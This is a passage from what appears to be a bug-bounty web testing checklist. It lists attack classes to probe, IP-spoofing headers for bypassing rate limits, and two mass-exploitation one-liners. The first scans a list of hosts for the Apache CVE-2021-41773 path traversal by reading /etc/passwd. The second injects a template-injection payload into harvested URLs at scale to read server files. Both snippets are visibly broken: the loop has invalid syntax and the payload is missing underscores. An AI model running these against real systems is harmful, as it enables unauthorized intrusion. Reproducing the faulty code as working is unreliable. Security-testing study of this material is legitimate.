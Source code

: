 5. Check for `CORS Misconfiguration`
6. Check for `Email Header Injection` on `Password Reset Function`
7. Check for `SMTP` and `HOST Header Injection`
8. Check for `IFRAMEs (Clickjacking)`
9. Check for `Improper Access Control` and `Paramter Tampering`
10. Check `Burp History` for finding endpoint
11. Use `Arjun` for finding hidden endpoints
12. Check for `Client-Side Request Forgery (CSRF)`
13. Check for `Server-Side Request Forgery (SSRF) Parameters`
14. Check for `Cross-Site Scripting (XSS)` and `Server-Side Template Injection (SSTI)`
15. Check `Cryptography` in `Reset Password Token`
16. Check for `Unicode Injection` in `Email Parameters`
17. Check for `Bypassing Rate Limits`

#### Headers

X-Originating-IP:IP
X-Forwarded-For:IP
X-Remote-IP:IP
X-Remote-Addr:IP
X-Client-IP:IP
X-Forwarded-Host:IP

18. Perform `Directory Busting`
19. Check for `HTTP Request Smuggling`
20. Check for `Open Redirect` through `WaybackUrls`
21. Check for `Social-Signon Bypass`
22. Check for `state parameter` in `Social Sign-In` & check whether it's possible to cause `Denial of Service (DoS)` using `Multiple Cookie Injection`
23. Check for `File Upload`: CSRF, XSS, SSRF, RCE, LFI, XXE
24. Check for `Buffer Overflow`

## Path Traversal Zero-Day in Apache HTTP Server (CVE-2021-41773)

```c
$ cat <FILE>.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done
```

## Server-Side Template Injection (SSTI) at Scale

```c
$ echo "<DOMAIN>" | subfinder -silent | waybackurls | gf ssti | qsreplace "{{''.class.mro[2].subclasses()[40]('/etc/hostname').read()}}" | parallel -j50 -q curl -g | grep  "root:x"
```

## Wayback Machine

### Password Search
